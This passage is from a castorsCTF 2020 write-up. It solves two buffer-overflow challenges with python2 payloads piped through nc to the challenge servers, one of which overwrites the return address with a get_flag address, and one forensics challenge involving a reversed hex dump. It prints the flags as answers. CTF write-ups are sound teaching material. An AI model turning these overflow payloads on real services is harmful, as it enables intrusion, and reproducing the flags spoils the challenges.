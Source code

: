 [abcdof](https://castorsctf20.ctfd.io/files/4c8ac09b05a5ae24cb2c360d276ba7b8/abcbof?token=eyJ1c2VyX2lkIjo2NDUsInRlYW1faWQiOjI4MSwiZmlsZV9pZCI6MTE2fQ.XtLTCw.GwwXits6_nblPj8cJIeZY5y6uMU)

**castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}**

**Solution :** Name field is unbound and with offset of 256 from the string compared.

`python2 -c "print 'A'*256 + 'CyberCastors'"  | nc chals20.cybercastors.com 14424`

## babybof1

`nc chals20.cybercastors.com 14425`

[babybof](https://castorsctf20.ctfd.io/files/3ac82ebd6662f13d73c9fde638514ddf/babybof?token=eyJ1c2VyX2lkIjo2NDUsInRlYW1faWQiOjI4MSwiZmlsZV9pZCI6MTE1fQ.XtLU6w.C3MSWBiC6pBv3EVPbTNdUN4ylOM)

**Solution :** Buffer overflow for name, change return address to the get_flag function.

`python2 -c "print 'A'*264 + '\xe7\x06\x40\x00\x00\x00\x00\x00\x00'" | nc chals20.cybercastors.com 14425
`

***
# Forensics

## Manipulation

One of our clients sent us the password but we got this instead. He insists the password is in the image, can you help us?

[pooh.jpg](https://castorsctf20.ctfd.io/files/164472a160861568c2f7de7ea946e04a/pooh.jpg?token=eyJ1c2VyX2lkIjo2NDUsInRlYW1faWQiOjI4MSwiZmlsZV9pZCI6MTA5fQ.XtLVhg.O4dwltQ82gB8fcrPX8LDW3DBbX0)

**castorsCTF{H3r3_Is_y0uR_Fl4gg}**

**Solution :** file is xxd dump where first line is last line.